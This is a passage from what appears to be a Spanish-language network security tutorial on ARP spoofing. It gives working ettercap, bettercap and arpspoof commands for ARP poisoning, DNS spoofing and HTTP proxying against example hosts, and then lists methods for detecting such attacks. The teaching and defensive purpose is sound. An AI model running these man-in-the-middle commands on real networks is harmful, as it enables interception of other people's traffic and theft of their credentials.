 **Mass ARP Poisoning:**
- Envenenamiento de toda la subred
- Ataque a múltiples víctimas simultáneamente
- Mayor impacto pero más detectable
- Útil para network reconnaissance

### Herramientas de ARP Spoofing

#### Herramientas Populares
**Ettercap:**
```bash
# ARP poisoning básico
ettercap -T -M arp:remote /192.168.1.10// /192.168.1.1//

# Con DNS spoofing combinado
ettercap -T -M arp:remote -P dns_spoof /192.168.1.10// /192.168.1.1//
```

**Bettercap:**
```bash
# Network discovery
net.probe on

# ARP spoofing
set arp.spoof.targets 192.168.1.10
arp.spoof on

# HTTP proxy
http.proxy on
```

**Arpspoof (dsniff suite):**
```bash
# Bidirectional ARP spoofing
arpspoof -i eth0 -t 192.168.1.10 192.168.1.1
arpspoof -i eth0 -t 192.168.1.1 192.168.1.10
```

### Detección de ARP Spoofing

#### Métodos de Detección
```
ARP Spoofing Detection:
├── Static ARP Tables
│   ├── Configuración manual de MAC addresses
│   ├── Prevención completa de ARP poisoning
│   └── Difícil de mantener en redes grandes
├── ARP Monitoring Tools
│   ├── arpwatch (Linux/Unix)
│   ├── XArp (Windows)
│   ├── ARP Guard (commercial)
│   └── Custom scripts
├── Network-based Detection
│   ├── Multiple MAC addresses para single IP
│   ├── Gratuitous ARP monitoring
│   ├── ARP reply frequency analysis
│   └── MAC address vendor validation
└── Host-based Detection
    ├── ARP table monitoring
    ├── Network connectivity verification
    ├── Latency anomaly detection
    └── Certificate validation failures
```
